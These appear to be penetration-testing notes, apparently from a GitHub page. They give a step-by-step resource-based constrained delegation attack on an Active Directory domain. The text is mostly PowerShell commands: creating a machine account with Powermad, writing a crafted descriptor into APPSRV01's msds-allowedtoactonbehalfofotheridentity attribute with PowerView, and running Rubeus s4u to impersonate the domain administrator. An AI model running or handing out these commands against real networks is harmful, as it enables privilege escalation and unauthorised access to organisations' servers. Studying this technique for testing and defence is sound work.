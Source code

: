 **IMPORTANT NOTE:** ALL THIS PROCESS MUST BE PERFORMED FROM A POWERSHELL CONSOLE

(RCBD stands for Resource-Based Constrained Delegation. On RBCD, the msds-allowedtoactonbehalfofotheridentity property controls delegation from the backend service.)

1st In order to perform the attack, we already need a computer configured with RBCD(with the msds-allowedtoactonbehalfofotheridentity writed), or we could abuse an ACL like GenericWrite in order to write the msds-allowedtoactonbehalfofotheridentity property.(in this PoC it the backend machine will be APPSRV01, the user that have write perssions will be contoso\trike and the fronted SPN will be contoso\mycomputer$)

2nd Create a new computer machine object that will have an SPN assigned to it; creation of the machine with powermad 

`New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force);`

Checking the SPN for that computer with powerview:

`Get-DomainComputer -Identity myComputer`

3rd We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack:
	
 1. `$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid`	
 	
 2. `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"`
	
 3. `$SDbytes = New-Object byte[] ($SD.BinaryLength)`
	
 4. `$SD.GetBinaryForm($SDbytes,0)`
	
 5. `Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
	
4th After the SecurityDescriptor has been converted to the correct format, we can use Get-DomainComputer to obtain a handle to the computer object for APPSRV01 and then pipe that into Set-DomainObject , which can update properties by specifying them with -Set options:

VERIFICATION THAT WE SUCCESSFULLY WROTE THE "msds-allowedtoactonbehalfofotheridentity" correctly:
	
 1. `$RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`
	
 2. `$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0`
	
 3. `$Descriptor.DiscretionaryAcl`   -> this will return us an SID in the SecurityIdentifier field, that we must convert
	
 4. `ConvertFrom-SID sid_number`  -> this must return us with: contoso\myComputer$
	
NOW WE WILL REQUEST A TGS FOR THE SPN: "CIFS/appsrv01.contoso.com" USING RUBEUS AND THE S4USELF AND S4UPROXY(this part is very similar to constrained delegation)
	
 1. `.\Rubeus.exe hash /password:h4x`
	
 2. `.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.contoso.com /ptt`

(the msdsspn parameter can be somewhat tricky, so do you can try various SPNs, for example if CIFS/appsrv01.contoso.com didn't worked, you can try CIFS/appsrv01 or something like that). 
